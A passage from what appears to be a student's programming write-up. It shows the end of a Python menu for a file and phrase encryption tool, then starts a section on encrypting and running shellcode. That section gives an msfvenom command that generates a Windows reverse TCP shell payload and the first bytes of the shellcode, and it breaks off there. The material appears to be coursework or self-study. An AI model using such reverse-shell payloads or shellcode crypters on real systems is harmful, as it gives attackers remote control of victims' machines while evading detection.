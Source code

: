 ```python
        3: "Decrypt phrase",
        4: "Decrypt file",
        5: "Generate key"
    }
    
    print()
    for option in options:
        print(f"{option}: {options[option]}")
    print()
    
    option = int(input("> "))
    match option:
        case 0:
            exit()
        case 1:
            cryptonite.encryptPhrase()
        case 2:
            cryptonite.encryptFile()
        case 3:
            cryptonite.decryptPhrase()
        case 4:
            cryptonite.decryptFile()
        case 5:
            cryptonite.generateKey()
            

def main():
    print(BANNER)
    while True:
        menu()

if __name__ == "__main__":
    main()
```

This file has changed a lot since time of writing, so I added some features, added ability to use the tool in command line, and some other fun stuff, so if you're interested, check it out [here](https://github.com/affeltrucken/ITST24_programming/tree/main/python/main_project/cryptonite) 

## shellcode_crypter.py: Encrypting shellcode and running it

First off, I generated a some basic shellcode using msfvenom to use as a starting point. This will be my starting point, so I have something to encrypt.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8000 -f python
```

```python
buf =  b"\\xfc\\xe8\\x82\\x00\\x00\\x00\\x60\\x89\\xe5\\x31\\xc0\\x64\\x8b\\x50"
buf += b"\\x30\\x8b\\x52\\x0c\\x8b\\x52\\x14\\x8b\\x72\\x28\\x0f\\xb7\\x4a\\x26"
buf += b"\\x31\\xff\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\xc1\\xcf\\x0d\\x01\\xc7"
buf += #...
```
